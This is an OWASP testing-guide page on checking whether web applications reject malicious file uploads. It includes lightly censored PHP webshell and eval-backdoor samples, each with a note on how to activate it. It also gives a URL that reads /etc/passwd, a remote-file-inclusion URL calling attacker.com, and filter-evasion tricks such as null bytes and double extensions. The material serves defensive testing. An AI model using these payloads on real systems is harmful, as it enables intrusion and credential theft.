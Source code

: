 # Test Upload of Malicious Files

|ID               |
|-----------------|
|WSTG-BUSLOGIC-009|

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

- Try to upload the malicious file to the application/system and verify that it is correctly rejected.

- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?rq=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.

- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: new file, import, upload, getFileName, Download, getOutputString
- C/C++: open, fopen
- PHP: move_uploaded_file(),Readfile, file_put_contents(),file(),parse_ini_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

- Change the value of `Content-Type` as `image/jpeg` in HTTP request
- Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
- Changes of capital letters of extensions. such as file.PhP or file.AspX
- Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

- In IIS6 vulnerability, if the file name is file.asp;file.jpg, the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

- In NginX, if the original file name is test.jpg, testers/hackers may change it to `test.jpg/x.php`

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such as `..\\..\\..\\..\\hacker.php`. If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the [ZIP bomb](https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb) file that may cause application denial of service.

- new File, file, OutputSteam, upload, import, file_put_contents, open, fopen

## Related Test Cases

[Test File Extensions Handling for Sensitive Information](../4.3_Configuration_and_Deployment_Management_Testing/4.3.3_Test_File_Extensions_Handling_for_Sensitive_Information.md)

[Test Upload of Unexpected File Types](../4.11_Business_Logic_Testing/4.11.8_Test_Upload_of_Unexpected_File_Types.md)

## Tools

- Metasploit's payload generation functionality

- Intercepting proxy

## References

[OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

[Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)

[Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)

[8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)

[Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)

[How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)

[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

[Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)

[Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
